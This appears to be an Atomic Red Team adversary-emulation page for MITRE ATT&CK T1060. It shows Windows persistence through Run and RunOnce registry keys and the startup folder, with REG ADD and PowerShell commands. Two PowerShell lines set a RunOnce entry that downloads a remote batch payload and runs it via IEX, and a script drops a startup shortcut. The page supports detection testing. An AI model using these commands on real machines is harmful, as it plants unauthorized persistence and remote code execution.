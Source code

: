 # Registry Run Keys / Start Folder

MITRE ATT&CK Technique: [T1060](https://attack.mitre.org/wiki/Technique/T1060)

## Reg Add

    REG ADD "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "Atomic Red Team" /t REG_SZ /F /D "C:\Path\AtomicRedTeam.exe"



## PowerShell

    $RunOnceKey = "HKLM:\Software\Microsoft\Windows\CurrentVersion\RunOnce"
    set-itemproperty $RunOnceKey "NextRun" 'C:\Windows\System32\WindowsPowerShell\v1.0\Powershell.exe "IEX (New-Object Net.WebClient).DownloadString(`"https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/Windows/Payloads/Discovery.bat`")"'

Oneliner:

    set-itemproperty "HKLM:\Software\Microsoft\Windows\CurrentVersion\RunOnce" "NextRun" 'C:\Windows\System32\WindowsPowerShell\v1.0\Powershell.exe "IEX (New-Object Net.WebClient).DownloadString(`"https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/Windows/Payloads/Discovery.bat`")"'

## Startup Folder

Single User:

    C:\Users\<username>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup

All Users:

    C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp

Add .lnk file to startup with PowerShell:

    $TargetFile = "$env:SystemRoot\System32\notepad.exe"
    $ShortcutFile = "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\Notepad.lnk"
    $WScriptShell = New-Object -ComObject WScript.Shell
    $Shortcut = $WScriptShell.CreateShortcut($ShortcutFile)
    $Shortcut.TargetPath = $TargetFile
    $Shortcut.Save()
